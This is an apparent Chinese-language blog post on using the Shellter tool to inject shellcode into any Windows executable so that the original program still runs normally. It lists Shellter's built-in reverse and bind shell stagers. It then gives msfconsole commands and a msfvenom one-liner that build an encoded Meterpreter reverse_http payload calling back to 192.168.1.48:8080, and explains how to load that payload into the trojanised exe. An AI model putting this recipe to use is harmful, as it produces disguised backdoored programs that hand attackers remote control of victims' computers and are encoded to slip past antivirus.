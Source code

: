 ```yaml
---
layout: post
title:  "shellter加载自定义payload"
date:   2016-11-22 16:00:01 +0800
categories: MSF
---
```


* content
{:toc}


shellter可将shellcode注入到任意exe，隐身模式下原exe功能丝毫不受影响，提供自动模式或手动模式加载，菜鸟和高手都能轻松运用。

shellter自身提供个一些基本的payload，如下


    ************
    * Payloads *
    ************
    
    [1] Meterpreter_Reverse_TCP   [stager]
    [2] Meterpreter_Reverse_HTTP  [stager]
    [3] Meterpreter_Reverse_HTTPS [stager]
    [4] Meterpreter_Bind_TCP      [stager]
    [5] Shell_Reverse_TCP         [stager]
    [6] Shell_Bind_TCP            [stager]
    [7] WinExec
    
   



这里就不详细说，重点说加载自定义的payload，custom_payload

用msf或者cobalt strike等都行，这里用msf的作为例子，如下生成：

    msf > use payload/windows/meterpreter/reverse_http
    
    msf payload(reverse_http) > show options
    msf payload(reverse_http) > set lhost 192.168.1.48
    lhost => 192.168.1.48
    msf payload(reverse_http) > set exitfunc thread
    exitfunc => thread
    msf payload(reverse_http) > generate -E -e x86/shikata_ga_nai -t raw -f Green_m.raw
    [*] Writing 351 bytes to Green_m.raw ...

或者

    msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 8 -b ‘\x00’ LHOST=192.168.1.48 LPORT=8080  -f raw -o /root/Desktop/Green_m.raw

然后Select Payload的时候选择刚刚的生成的Green_m.raw。

***注：本文所做所有测试不保证完全有效，仅供参考。***

[shellter官网](https://www.shellterproject.com/)

转载请注明出处：[https://green-m.github.io/2016/11/22/shellter-load-custom_payload/](https://green-m.github.io/2016/11/22/shellter-load-custom_payload/)
